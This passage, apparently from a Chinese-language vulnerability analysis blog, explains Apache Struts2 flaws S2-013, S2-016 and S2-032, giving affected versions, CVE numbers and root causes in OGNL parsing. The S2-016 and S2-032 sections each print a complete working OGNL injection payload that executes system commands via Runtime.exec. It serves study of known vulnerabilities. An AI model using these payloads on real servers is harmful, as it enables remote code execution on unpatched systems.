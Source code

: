 是一个 `%{xxxx}` 结构的表达式，前面在S2-012的末尾也说明过，在 `com.opensymphony.xwork2.util.TextParseUtil#translateVariables()` 中限制解析的层数最多为1层了，但是其实可以绕，如果二次解析的表达式为 `%{xxxx}` 格式，就会触发二次解析，从而RCE。

POC1 RCE证明：

![image-20210816154403131](/media/image-20210816154403131.png)

POC2 RCE证明：

![image-20210816154624713](/media/image-20210816154624713.png)

## S2-016

影响版本：Struts 2.0.0 - Struts 2.3.15

CVE编号：CVE-2013-2251

POC如下：

```java
?redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("calc").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

这个漏洞的产生原因是：在`struts2`中，`DefaultActionMapper`类支持以 `action:` 、 `redirect:` 、 `redirectAction:` 作为导航或是重定向前缀，但是这些前缀后面同时可以跟 `OGNL` 表达式，由于 `struts2` 没有对这些前缀做过滤，导致利用`OGNL`表达式调用`java`静态方法执行任意系统命令。

如下所示（ `org.apache.struts2.dispatcher.StrutsResultSupport#conditionalParse(String, ActionInvocation)` ）：

![image-20210816160159675](/media/image-20210816160159675.png)

如果不带 `action:` 、 `redirect:` 、 `redirectAction:` 前缀，再次在 `org.apache.struts2.dispatcher.StrutsResultSupport#conditionalParse(String, ActionInvocation)` 打断点，发现不能携带Ognl表达式了：

![image-20210816160431300](/media/image-20210816160431300.png)

RCE证明：

![image-20210816160526664](/media/image-20210816160526664.png)

## S2-032

影响版本：Struts 2.0.0 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

CVE编号：CVE-2016-3081

POC如下：

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=calc
```
